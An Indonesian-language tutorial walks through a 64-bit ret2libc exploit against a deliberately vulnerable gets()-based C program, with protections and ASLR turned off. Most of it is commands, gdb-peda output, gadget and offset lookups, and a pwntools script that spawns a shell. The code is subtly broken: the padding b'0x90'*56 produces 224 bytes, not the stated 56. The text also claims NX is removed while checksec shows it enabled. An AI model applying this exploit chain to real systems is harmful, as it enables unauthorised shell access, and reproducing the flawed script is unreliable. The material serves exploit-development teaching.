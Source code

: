 [x] NO Canary ~ -fno-stack-protector
[x] NO PIE ~ -no-pie
[x] NX ~ tanpa -z execstack
[x] NO ASLR ~ echo 0 > /proc/sys/kernel/randomize_va_space

vuln_program.c

```c
#include<stdio.h>

void foo()
{
    char buffer[40];
    puts("give me your input :)\n");
    gets(buffer);
}

void main()
{
    foo();
}
```

kita kompile dengan cara seperti ini untuk supaya tidak ada perlindungan NX 

```bash
gcc -g -m64 -no-pie -fno-stack-protector -o vuln64 vuln_program.c
```

setting disable untuk perlindungan ASLR pada sistem operasi linux

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

jalankan program vuln32 dengan gdb kemudian lakukan checksec

```bash
$gdb -q vuln64
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

```bash
$ldd vuln64
linux-vdso.so.1 (0x00007ffff7fd3000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dfa000)
/lib64/ld-linux-x86-64.so.2 (0x00007ffff7fd5000)
```

ditemukan lokasi basis libc di 0x7ffff7dfa000

```bash
$readelf -s /lib/x86_64-linux-gnu/libc.so.6|grep system
   235: 00000000001294c0    99 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
   613: 00000000000449c0    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1418: 00000000000449c0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

ditemukan lokasi  system@@GLIBC_2.2.5 di 0x449c0

```bash
$strings -a -t x /lib/x86_64-linux-gnu/libc.so.6|grep /bin/sh
 180519 /bin/sh
```

ditemukan lokasi relatif /bin/sh 0x180519

```bash
$ROPgadget --binary vuln64 |grep "pop rdi"
0x00000000004011cb : pop rdi ; ret
```

ditemukan pop_rdi 0x4011cb

mencari padding (ukuran buffer overflow)

```bash
gdb-peda$ pattern create 100

'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

gdb-peda$ r
Starting program: /root/You_Tube/Stack_Buffer_Overflow/3/coba 
give me your input :)
  
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffe4f0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RBX: 0x0 
RCX: 0x7ffff7fb4a00 --> 0xfbad2288 
RDX: 0x7ffff7fb68d0 --> 0x0 
RSI: 0x405671 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\n")
RDI: 0x7fffffffe4f1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RBP: 0x4147414131414162 ('bAA1AAGA')
RSP: 0x7fffffffe528 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RIP: 0x401159 (<foo+39>: ret)
R8 : 0x4056d5 --> 0x0 
R9 : 0x0 
R10: 0x405010 --> 0x0 
R11: 0x246 
R12: 0x401050 (<_start>: xor    ebp,ebp)
R13: 0x7fffffffe610 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401152 <foo+32>: call   0x401040 <gets@plt>
   0x401157 <foo+37>: nop
   0x401158 <foo+38>: leave  
=> 0x401159 <foo+39>: ret    
   0x40115a <main>: push   rbp
   0x40115b <main+1>: mov    rbp,rsp
   0x40115e <main+4>: mov    eax,0x0
   0x401163 <main+9>: call   0x401132 <foo>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe528 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0x7fffffffe530 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0x7fffffffe538 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0x7fffffffe540 ("AJAAfAA5AAKAAgAA6AAL")
0032| 0x7fffffffe548 ("AAKAAgAA6AAL")
0040| 0x7fffffffe550 --> 0x4c414136 ('6AAL')
0048| 0x7fffffffe558 --> 0x40115a (<main>: push   rbp)
0056| 0x7fffffffe560 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401159 in foo () at coba.c:8
8 }
gdb-peda$ pattern offset 0x4147414131414162
4703800084066812258 found at offset: 48
```

paddingnya 48 bytes + 8 byte sampai diawal RIP = 56 bytes
penyusunan exploit sebagai berikut

```python
#ldd vuln64 0x7ffff7dfa000
#strings -a -t x /lib/x86_64-linux-gnu/libc.so.6|grep /bin/sh 0x180519 
#readelf -s /lib/x86_64-linux-gnu/libc.so.6|grep system 0x0449c0
#pop_rdi 0x00000000004011cb

from pwn import *

p=process('./vuln64')
print(p.recv())

padding = b'0x90'*56
pop_rdi =p64(0x4011cb)
base_libc = 0x7ffff7dfa000
system = p64(base_libc+0x0449c0)
binsh = p64(base_libc+0x180519)

p.sendline(padding+pop_rdi+binsh+system)
print(p.clean())
p.interactive()
```

dijalankan

```bash
$python3 exploit-nx64.py 
[+] Starting local process './vuln64': pid 4549
b'give me your input :)\n'
b'\n'
[*] Switching to interactive mode
$
```

